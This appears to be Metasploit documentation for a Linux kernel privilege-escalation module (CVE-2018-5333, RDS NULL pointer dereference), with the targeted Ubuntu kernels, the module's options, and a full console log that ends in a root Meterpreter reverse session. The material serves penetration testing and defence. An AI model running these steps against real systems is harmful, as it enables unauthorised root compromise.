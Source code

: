## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a NULL pointer dereference in the `rds_atomic_free_op` function in the
  Reliable Datagram Sockets (RDS) kernel module (rds.ko).

  Successful exploitation requires the RDS kernel module to be loaded.
  If the RDS module is not blacklisted (default); then it will be loaded
  automatically.

  This exploit supports 64-bit Ubuntu Linux systems, including distributions
  based on Ubuntu, such as Linux Mint and Zorin OS.

  Target offsets are available for:

  Ubuntu 16.04 kernels 4.4.0 <= 4.4.0-116-generic; and
  Ubuntu 16.04 kernels 4.8.0 <= 4.8.0-54-generic.

  This exploit does not bypass SMAP. Bypasses for SMEP and KASLR are included.
  Failed exploitation may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on various 4.4 and 4.8 kernels.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled executable.


## Scenarios

### Ubuntu 16.04 kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu

  ```
  msf5 > use exploit/linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc 
  msf5 exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > check

  [+] System architecture x86_64 is supported
  [+] Linux kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu is vulnerable
  [+] SMAP is not enabled
  [+] LKRG is not installed
  [+] grsecurity is not in use
  [+] rds.ko kernel module is loaded
  [*] The target appears to be vulnerable.
  msf5 exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] System architecture x86_64 is supported
  [+] Linux kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu is vulnerable
  [+] SMAP is not enabled
  [+] LKRG is not installed
  [+] grsecurity is not in use
  [+] rds.ko kernel module is loaded
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/.zwl2ezPl' (250 bytes) ...
  [*] Launching exploit (timeout: 30)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.206
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.206:48130) at 2019-12-21 02:22:40 -0500
  [+] Deleted /tmp/.aCNiWb9vps
  [+] Deleted /tmp/.zwl2ezPl
  [*] Linux RDS rds_atomic_free_op NULL pointer dereference local root (CVE-2018-5333)
  [*] [.] checking kernel version...
  [*] [.] kernel version '4.8.0-51-lowlatency #54~16.04.1-Ubuntu' detected
  [*] [~] done, version looks good
  [*] [.] checking system...
  [*] [~] done, looks good
  [*] [.] mapping null address...
  [*] [~] done, mapped null address
  [*] [.] KASLR bypass enabled, getting kernel base address
  [*] [.] trying /proc/kallsyms...
  [*] [-] kernel base not found in /proc/kallsyms
  [*] [.] trying syslog...
  [*] [.] done, kernel text:   ffffffffa7c00000
  [*] [.] commit_creds:        ffffffffa7ca6ed0
  [*] [.] prepare_kernel_cred: ffffffffa7ca72e0
  [*] [.] mmapping fake stack...
  [*] [~] done, fake stack mmapped
  [*] [.] executing payload 0x4027f7...
  [*] [+] got root

  meterpreter > getuid 
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.206
  OS           : Ubuntu 16.04 (Linux 4.8.0-51-lowlatency)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

